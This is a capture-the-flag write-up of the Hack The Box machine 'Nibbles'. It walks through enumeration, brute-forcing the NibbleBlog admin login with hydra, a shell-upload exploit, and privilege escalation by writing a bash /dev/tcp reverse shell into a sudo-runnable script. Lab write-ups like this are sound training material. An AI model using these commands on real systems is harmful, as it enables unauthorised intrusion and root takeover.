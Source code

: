 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/nibbles00.PNG?raw=true)  

## Recon-Enumeration  
nmap -A -v 10.10.10.75  
![alt text](./img/nibbles01.PNG?raw=true)  

gobuster dir -u http://10.10.10.75 -w ~/wordlists/big.txt -t 100 -e -x php,html,aspx,txt,log,xml  
![alt text](./img/nibbles02.PNG?raw=true)  

Ok, nothing important. Let’s check the page’s source code  
![alt text](./img/nibbles03.PNG?raw=true)  

Let’s access it  
![alt text](./img/nibbles04.PNG?raw=true)  

gobuster dir -u http://10.10.10.75/nibbleblog -w ~/wordlists/big.txt -t 100 -e -x php,html,aspx,txt,log,xml  
![alt text](./img/nibbles05.PNG?raw=true)  

Some curious options, but let's start with the most obvious….. admin.php  
![alt text](./img/nibbles06.PNG?raw=true)  

We can try some default credentials, but it will fail. So let’s check the login request with burp suite and send it to INTRUDER  
![alt text](./img/nibbles07.PNG?raw=true)  

After a feel requests capture we can check that the PHPSESSID doesn’t change, so we can set only the variables USERNAME and PASSWORD to be tested  
![alt text](./img/nibbles08.PNG?raw=true)  

However we have a problem, we don't know any username to improve our chances of success. So let’s see if we can found some help  

Visting the url “http://10.10.10.75/nibbleblog/README”, found with gobuster, we identify the app version  
![alt text](./img/nibbles10.PNG?raw=true)  

So let’s search for a exploit  
searchsploit nibble  
![alt text](./img/nibbles09.PNG?raw=true)  

Since i like to avoid metasploit at all costs (because OSCP rules) let’s enumerate harder visitng the other urls. Above are some findings  
http://10.10.10.75/nibbleblog/content/private/config.xml  
![alt text](./img/nibbles11.PNG?raw=true)  

http://10.10.10.75/nibbleblog/content/private/users.xml  
![alt text](./img/nibbles12.PNG?raw=true)  

Hummm so we have a sort of blacklist system with a fail_count. But now we have the username “admin”  

Let’s try to use burpsuite or hydra to discover this password  
hydra 10.10.10.75 -l admin -P ~/wordlists/rockyou.txt http-form-post "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username or password"-vV -f  
![alt text](./img/nibbles14.PNG?raw=true)  

Here we notice the blacklist it’s working properly, since we found 2 passwords for the same username

So let’s try to discover the password as old times…..manually  
We discover some information with the nibbleblog pages, so let’s try yo use it as credentials on the page http://10.10.10.75/nibbleblog/admin.php  
- admin:nibbleblog  
- admin:nibble  
- admin:yum  
- admin:yumyum  
- admin:nibbles ---> SUCESS  

![alt text](./img/nibbles15.PNG?raw=true)  

## Exploit  

Great, now looking on internet we can found a tutorial to how exploit nibbleblog 4.0.3  
https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html  

To keep it simple:  
- Login to nibbleblog  
- Activate MY IMAGE PLUGIN visiting: http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image  
- Upload your shell  
- Visit: http://localhost/nibbleblog/content/private/plugins/my_image/shell.php  

![alt text](./img/nibbles16.PNG?raw=true)  

![alt text](./img/nibbles17.PNG?raw=true)  

For the shell i used the pentestmonkey php reverse shell, you can find it [HERE] (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or in kali /usr/share/webshells/php/php-reverse-shell.php  
![alt text](./img/nibbles18.PNG?raw=true)  

Start a netcat listener and click on image.php  
![alt text](./img/nibbles19.PNG?raw=true)  

HABEMUS SHELL \o/  

## Privesc  

Get a better shell:  
> python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  

sudo -l  
![alt text](./img/nibbles25.PNG?raw=true)  

Ok, let’s read this file….. but first we can found the first flag on /home/nibbler  
![alt text](./img/nibbles20.PNG?raw=true)  

Strange…. the personal folder doesn’t exist….. so we need to create the path to the monitor.sh file  
![alt text](./img/nibbles21.PNG?raw=true)  

Now let’s write an reverse shell code to the file and try to execute it. You can find great examples [HERE](https://gtfobins.github.io/)  
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.5/12345 <&1'" > monitor.sh  
cat monitor.sh  
![alt text](./img/nibbles22.PNG?raw=true)  

Start an netcat listener and run the above command  
sudo -u root /home/nibbler/personal/stuff/monitor.sh    
![alt text](./img/nibbles23.PNG?raw=true)  

And grab the flag  
![alt text](./img/nibbles24.PNG?raw=true)  
